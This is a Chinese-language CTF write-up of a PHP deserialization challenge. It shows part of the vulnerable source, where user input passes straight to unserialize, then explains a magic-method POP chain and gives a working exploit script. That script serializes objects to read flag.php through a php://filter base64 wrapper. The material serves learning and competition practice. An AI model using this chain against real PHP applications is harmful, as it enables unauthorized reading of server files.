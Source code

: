 ```php
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

```php
__construct()//当一个对象创建时被调用
__destruct() //当一个对象销毁时被调用
__toString() //当一个对象被当作一个字符串使用
__sleep()//在对象在被序列化之前运行
__wakeup()//将在反序列化之后立即被调用(通过序列化对象元素个数不符来绕过)
__get()//访问类中一个不存在的属性时自动调用
__set()//设置一个类的成员变量时调用
__invoke()//调用函数的方式调用一个对象时的回应方法
__call()//当调用一个对象中的不能用的方法的时候就会执行这个函数
此处用到的主要是__toString()，__wakeup()，__get()，__invoke()，
```

首先是Modifier类，append可以包含文件，`__invoke`中调用了append方法，`__invoke`自动调用的条件是类被当做一个函数被调用。

接下来是Test，construct用不上 ，直接看get，可以看到p被当做函数来调用，正好符合Modifier的要求。魔法函数__get会在访问类中一个不存在的属性时自动调用。

然后是Show类，魔术方法\_\_toString中会返回属性str中的属性source，如果刚刚提到的source属性不存在，那么就符合了Test类中的要求，魔术方法__toString在类被当做一个字符串处理时会被自动调用。

wakewp将source传入正则进行匹配，这时source被当做字符串来处理，最终会调用tostring方法

于是：`反序列化-> show.__wakeup-> show.tostring->test.get->modiflier.invoke->include`

exp:

```php
<?php
class Modifier {
    ///protected  $var="flag.php";
	protected $var="php://filter/read=convert.base64-encode/resource=flag.php";
}
class Show{
    public $source;
    public $str;
}
class Test{
    public $p;
}
$a = new Show();
$b = new Show();
$a->source=$b;
$b->str=new Test();
($b->str)->p=new Modifier();
echo urlencode(serialize($a)); 
?>
```
